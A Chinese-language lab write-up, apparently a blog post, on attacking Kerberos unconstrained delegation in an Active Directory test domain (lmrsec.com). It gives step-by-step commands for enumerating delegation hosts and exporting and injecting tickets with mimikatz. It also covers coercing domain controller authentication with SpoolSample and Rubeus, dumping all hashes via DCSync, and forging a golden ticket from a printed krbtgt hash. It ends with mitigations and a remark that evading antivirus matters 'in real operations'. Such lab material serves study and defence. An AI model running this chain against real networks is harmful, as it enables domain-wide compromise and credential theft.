

域委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户的权限在域内展开活动。

服务账号（Service Account），域内用户的一种类型，服务器运行服务时所用的账号，将服务运行起来并加入域。例如MSSQL Server在安装时，会在域内自动注册服务账号SqlServiceAccount，这类账号不能用于交互式登录。

委派（Delegation）是kerberos相对于NTLM认证独有的特性，指的是A可以让B“代理”自己去访问C服务。

具体为：域中A使用Kerberos身份验证访问域中的服务B，而B再利用A的身份去请求域中的服务C，因为用的是A的身份，所以只有A有权限访问C的时候，委派才能成功。

委派主要分为非约束委派(Unconstrained delegation)和约束委派(Constrained delegation)两个方式，还有一种是基于资源的约束委派（Resource Based Constrained Delegation）。


利用条件：简单来说就是你获得的用户对该主机的属性具有写权限，那么这个用户就可以对该主机进行攻击


## 非约束委派

即无限制的转发，B可以用从A处得到的TGT访问任意服务，其中B也可以是任意服务。

利用：使用从高权限账户处得到的TGT去获取权限。


### 环境搭建

靶机：win7 10.10.40.53

域管：win2016 10.10.40.50

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。

首先将tony配置为服务账号：

登录域管账号进行配置：

	setspn -U -A variant/golden tony //配置tony用户为服务账户,variant/golden是起的SPN名称
	setspn -l tony //查看是否配置成功


打开 “Active Directory 用户和计算机”：

单击 “开始” -> “运行” -> 输入 “dsa.msc” :


以windows server 2016域控为例：


右键点击属性-》点击“委派”，默认是“不信任此计算机来委派”


启动非约束委派：



然后在Windows 7上登录tony用户，启动WinRM (Windows Remote Management) 服务。(常见的连接方式还有：MSSQL和IIS等，这里为了方便演示就直接用WinRM了)

	WinRM是WindowsRemoteManagement（win远程管理）的简称。基于Web服务管理(WS-Management)标准，使用80端口或者443端口。这样一来，我们就可以在对方有设置防火墙的情况下远程管理这台服务器了。Server2008R2及以上的系统中默认中都开启该服务，从Server2012系统后开始，该WinRM服务便被设置为默认开启。Win7系统中却默认安装此WinRM服务，但是默认为禁用状态，Win8系统和Win10系统也都默认开启WinRM服务。

**WIN7或2008需要手动开启WINRM。**


默认端口:

	5985/tcp (HTTP)
	5986/tcp (HTTPS)

检查WinRM是否开启:

	winrm quickconfig -q 或 winrm qc


win+R启动services.msc 检查这个服务是否是手动启动：


以管理员身份运行cmd，启动winrm

	net start winrm


开启 winrm / 检查winrm 开启：


攻击机和靶机的网络连接不是**专用网络/域网络**会出错：


开启专用网络：


	//查看winrm service listener
	winrm enumerate winrm/config/listener


	//为winrm service 配置auth
	winrm set winrm/config/service/auth @{Basic="true"}


	//为winrm service 配置加密方式为允许非加密
	winrm set winrm/config/service @{AllowUnencrypted="true"}


	//winrm service返回信息则启动配置成功
	winrm enumerate winrm/config/listener


	客户端和服务端两者TrustedHosts列表中的计算机都要添加验证 (客户端也需要验证，可能利用起来略显麻烦)
	winrm set winrm/config/Client @{TrustedHosts="*"}


在靶机执行```whoami``` 查询当前用户：


远程执行命令：

	winrs -r:http://10.10.40.53:5985 -u:lmrsec\administrator -p:123.bmk!! "ipconfig"


弹出cmd：

	winrs -r:http://10.10.40.53:5985 -u:lmrsec\administrator -p:123.bmk!! cmd

**推荐使用powershell 访问 winrm 服务，有权限时不需要输入密码。**

Powershell下执行命令:

	Enter-PSSession -ComputerName AD

	-ComputerName指定主机名，-Port指定WinRM端口，默认是5985


### winrm 流量分析 

非加密方式的流量特征如下：第一个响应返回 401( 401 unauthorized，表示发送的请求需要有通过 HTTP 认证的认证信息)等。


具体流量包见 ```winrs ipconfig.pcap，winrs build cmd.pcap，winrs cmd whoami ipconfig.pcap```。

参考资料：https://www.cnblogs.com/renhaoblog/p/13497027.html

### 查询哪些主机启用了非约束委派

这里使用PowerSploit完成，使用Import-Module加载PowerView.ps1进行查询。**脚本需要在域控主机上运行。**

有些有执行限制：

	Get-ExecutionPolicy  //结果显示restricted

需要打开限制：

	Set-ExecutionPolicy Unrestricted  //打开限制

查询配置非约束委派的主机

	Get-NetComputer -Unconstrained -Domain lmrsec.com


也可以用 [ADFind](https://www.joeware.net/freetools/tools/adfind/) 工具 

**AdFind.exe(windows)/ldapsearch(linux)只需在域成员机器上运行即可。**

查询非约束委派的主机：

	AdFind.exe -b "DC=lmrsec,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName


原来域控机器也开启了非约束委派(应该是我前面配置的)：


	ldapsearch -x -W -D "tony" -b "DC=LMRSEC,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -h 10.10.40.50|grep -iE "distinguishedName"


查询非约束委派的用户：

	AdFind.exe -b "DC=lmrsec,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName


	ldapsearch -x -W -D "tony" -b "DC=LMRSEC,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -h 10.10.40.50|grep -iE "distinguishedName"


### 利用

只有服务账号与主机账号才有委派功能，将tony设置为服务账号。(设置方法见上面)

诱导域管访问被设置了非约束委派的机器，**这个时候域管理员的TGT已经<font color='red'>缓存</font>到域成员主机了，使用mimikatz就可以导出** (网络流量只在域管访问非约束委派机器时会产生，但域管访问非约束委派服务的方式不固定，所以流量也不固定)

非约束委派机器中导出TGT票据（需要本地管理员权限）


域内主机win7上操作：

导出票据(需要本地管理员权限，框框内均为域管票据，导入任何一个即可)：

	mimikatz "privilege::debug" "sekurlsa::tickets /export" exit


导入票据，**通过ptt将TGT注入到当前会话中**(需要本地管理员权限，仅在cmd一起输入时测试通过，一个一个输入测试失败)：

	mimikatz "privilege::debug" "kerberos::ptt <票据名称>" "kerberos::list" exit


mimikatz清除系统中的票据（恢复到导出TGT前，域内主机无法访问域控的共享）：
	
	kerberos::purge


#### 域管主机没有和委派主机/账户产生交互

利用非约束委派+Spooler打印机服务可以强制指定的主机进行连接，这个利用场景是tifkin_，enigma0x3和[harmj0y](http://blog.harmj0y.net/)在DerbyCon 2018提出的。

原理：http://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/

https://xz.aliyun.com/t/2896

https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory

1)域控主机开启Print Spooler服务，默认开启

Windows打印系统远程协议（MS-RPRN）中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex)方法强制任何运行了Spooler服务的计算机以通过Kerberos或NTLM对攻击者选择的目标进行身份验证。


2)一台开启非约束委派的**主机账户(不是服务账户)**

3)有一个域普通用户

使用 工具 [SpoolSample](https://github.com/leechristensen/SpoolSample)，并用**高版本VS**编译，运行，如果出现弹框提示缺少 VCRUNTIME140D.dll：


解决方案：用[静态编译](https://jingyan.baidu.com/article/a681b0de7a173c3b1843462b.html)

SpoolSample 配合 [Rubeus](https://github.com/GhostPack/Rubeus)：

Rubeus需要以管理员权限运行(这里"AD"为域控的hostname)：

语法：

	Rubeus.exe monitor[/interval:SECONDS][/filteruser:USER]

命令：

	Rubeus.exe monitor /interval:1 /filteruser:AD$


先开启 Rubeus **监听Event ID为4624事件**，再启动SpoolSample使域控强认证。

Rubeus 监听这里有一个问题，tony是本地管理员账户，但是运行Rubeus提示权限不够，是**UAC**限制。


需要在cmd右键以管理员权限运行。

流量包见 ```Rubeus.exe monitor interval1 filteruserAD$(在域内开启非约束委派成员机抓包).pcap```

以runas方式也是不行的 ```runas /user:lmrsec\administrator cmd```

对比如下：


启动SpoolSample使域控强认证:

	SpoolSample AD aa-PC

在计算机管理可以看到多了几条登录日志：


Rubeus.exe捕获到的TGT是base64编码的，但是我们不需要解码，Rubeus可以直接将base64编码的票据直接注入到内存中：

	Rubeus.exe ptt /ticket:base64


cmd下klist查看缓存的票证：

	klist


可以用mimikatz 导出域用户hash：

	lsadump::dcsync /domain:lmrsec.com /all /csv


使用 mimikatz 导出 krbtgt 的 NTLM Hash（这一步多此一举）：

	lsadump::dcsync /domain:lmrsec.com /user:krbtgt


**用原生wmic获取域的sid**即可(下图上半部分是本机的sid，下半部分是域的sid)：

	wmic useraccount get name,sid


**得到krbtgt用户的hash之后生成一张administrator的黄金票据**：

Golden Ticket（黄金票据）是通过伪造的TGT（Ticket Granting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的TGS，可以说能够伪造黄金票据即有了域内的最高权限。


忘记输入了 ```/ptt```,

	kerberos::golden /user:Administrator /domain:lmrsec.com /sid:S-1-5-21-4175578073-168413485-1140492047 /krbtgt:4f1f3dc469ef39126486ed369c3eb8dc /ptt

**成功拿到权限**！！！


#### 缓解措施

1.比如域管理员账户，设置不允许委派

2.关闭域控的Print Spooler（Spooler）服务

3.限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机。这降低攻击者通过横向扩展，获取域管理员的账户，获得访问域控制器的Active Directory的ntds.dit的权限。如果攻击者无法访问AD数据库（ntds.dit文件），则无法获取到KRBTGT帐户密码。

4.建议定期更改KRBTGT密码。

5.快速更改KRBTGT密码两次，使任何现有的黄金票据（以及所有活动的Kerberos票据）失效。这将使所有Kerberos票据无效，并消除攻击者使用其KRBTGT创建有效金票的能力。

[重置 krbtgt 密码](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password)

单击 “开始” -> “运行” -> 输入 “dsa.msc” ，打开 “Active Directory 用户和计算机”，


但是我的win2016这个界面居然没看到krbtgt账户，无法用windows自动生成随机强密码这个功能。

登录域控用下面命令重置2次：

	net user 用户名 新密码

**原理：Krbtgt 帐户的密码历史记录值为2，这意味着它包含2个最新密码。 通过重置密码两次，可以有效地清除历史记录中的任何旧密码，因此无法使用旧密码将其他 DC 与此 DC 进行复制。**

## 参考资料

[基于资源的约束委派攻击Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

[域渗透--Kerberos委派](https://eviladan0s.github.io/2020/04/14/kerberos-delegation/)

[域渗透——Kerberos委派攻击](https://xz.aliyun.com/t/7217)

[超好用的免费实用工具网站](https://www.joeware.net/index2.htm)

[VS静态编译C/C++解决程序丢失 VCRUNTIME140.dll](https://jingyan.baidu.com/article/a681b0de7a173c3b1843462b.html)


## 后记

1.用 mimikatz ```kerberos::purge``` 清空了tgt，没有搞清楚为啥用 ```klist``` 还有缓存。


无奈在cmd清空票证：

	klist purge


2.```lsadump::dcsync /domain:lmrsec.com /all /csv``` 导出的hash:


带```$```都是主机账户，后面的密码是系统自动生成的，并且限制不能远程登录。

3.域控比普通域/工作组机器多一个用户 krbtgt：


4.wmic 查看所有用户 sid：

	wmic useraccount get name,sid

域控下回显：


域用户Win2003回显:


工作组Win7回显：


5.解决mimikatz一复制就崩溃：

在命令行调用mimikatz 后exit。这样相当于还是在cmd复制。

	mimikatz.exe "lsadump::dcsync /domain:lmrsec.com /all /csv" exit


6.在使用SpoolSample和Rubeus抓取tgt时遇到了一个问题：


使用```net time /set```命令发现时间已同步。


**最终无奈重启域内主机，才解决问题。但是在实战中重启域内靶机可能权限就掉了。**

7.打开 “Active Directory 用户和计算机”：

单击 “开始” -> “运行” -> 输入 “dsa.msc” :

8.域控krbtgt账户那么危险，它存在的意义是？

krbtgt账户：每个域控制器都有一个“krbtgt”的用户账户，是KDC的服务账户，用来创建票据授予服务（TGS）加密的密钥。可能微软当初没想到它这么危险吧。T.T

黄金票据（Golden Ticket）：是通过伪造的TGT（Ticket Granting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的TGS，可以说能够伪造黄金票据即有了域内的最高权限。简单来说，**它能让黑客在拥有普通域用户权限和krbtgt hash的情况下，获取域管理员权限。**

9.我生成的```Rubeus.exe``` 和 ```SpoolSample.exe``` 不免杀，在VT被查杀率很高，实战应考虑免杀。

10.Rubeus.exe : The /outfile parameter is not valid for the monitor command

https://github.com/GhostPack/Rubeus/issues/63

